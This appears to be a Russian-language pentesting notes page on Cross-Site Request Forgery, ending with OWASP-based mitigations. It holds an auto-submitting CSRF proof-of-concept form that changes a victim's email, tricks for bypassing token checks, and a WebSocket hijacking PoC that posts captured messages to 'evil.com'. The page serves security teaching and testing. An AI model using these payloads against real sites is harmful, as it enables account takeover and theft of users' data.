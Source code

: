 # CSRF

## Description

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated.

## Примеры использования

### Общий

Пример кейса с атакой CSRF: есть сайт с возможностью добавления почты. делаем запрос на добавление почты с другого сайта -> CSRF (токен может быть встроен в страницу, но не проверяться на стороне сервера)

Пример нагрузки:

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnarable-site.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@email.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>

```

### XS-Search

Это Side-Channel атака для получения доступа к информации, к которой другие пользователи имеют доступ, а атакующий не имеет

Необходимо:&#x20;

* CSRF
* Возможность предугадывать, есть ли контент или нет

Подробно и примеры:\
[https://book.hacktricks.xyz/pentesting-web/xs-search](https://book.hacktricks.xyz/pentesting-web/xs-search)\
[https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html](https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html)

### Mistakes

* Проверка CSRF-токена зависит от типа HTTP-запроса

Проверка CSRF-токен может быть включена для POST/PUT-запросов, но выключена для GET-запроса. Можно попробовать все параметры перегнать в GET-параметры и сделать такой запрос.

* Delete CSRF-token

Можем попробовать просто убрать токен из запроса.

* CSRF-токен не привязан к сессии

Можем подставить csrf-токен из другой сессии. А у приложения общий пул CSRF-токенов.



### Cross-Site WebSocket Hijacking

Суть в общем та же: пользователь заходит на нашу страницу, мы пробуем от его лица сделать запрос на открытие вебсокета. PoC:

```markup
<html>
    <body>
        <script src="jquery.min.js"></script>
        <script>
            // open
            var ws = new WebSocket("http://example.com", "chat");
            
            // send
            ws.send("Attacker's message");
            
            // receive
            ws.onmessage = function(event) {
                $.post("evil.com", event.data);
            }
        </script>
    </body>
</html>
```

Запрос будет выглядеть примерно так:

```
 GET /chat HTTP/1.1
 Host: example.com
 Upgrade: websocket
 Connection: Upgrade
 Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
 Origin: http://malicious-site.com
 Sec-WebSocket-Protocol: chat
 Sec-WebSocket-Version: 13
 Cookie: session_id=victim_uuid	
```

## CSRF Testing MindMap

![CSRF Testing MindMap](../../.gitbook/assets/image.png)

## Mitigations

From OWASP: [https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html)

### Если есть встроенный механизм защиты CSRF — использовать его

### Stateful Software

CSRF tokens should be:

* Unique per user session.
* Secret
* Unpredictable (large random value generated by a [secure method](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic\_Storage\_Cheat\_Sheet.html#rule---use-cryptographically-secure-pseudo-random-number-generators-csprng)).

Безопаснее передавать CSRF токены в заголовках запроса. Не рекомендуется передавать CSRF токены в query-параметрах (в GET запросах, в частности): токен может утечь разными путями — логи, история браузера.

## Stateless Software

Есть техника Double Submit Cookie.&#x20;

Клиент с каждым запросом шлет случайное значение в куках и то же значение в теле запроса: на стороне сервера эти значения сверяются между собой. При первом посещении сайта, это случайное значение отдается клиенту без привязки к сессии. Можно добавлять шифрование этого токены в сессии или использовании HMAC.&#x20;

## Links & Papers

Подробнее о том как генерируется CSRF-токен и проверяется: [https://learn.javascript.ru/csrf](https://learn.javascript.ru/csrf).

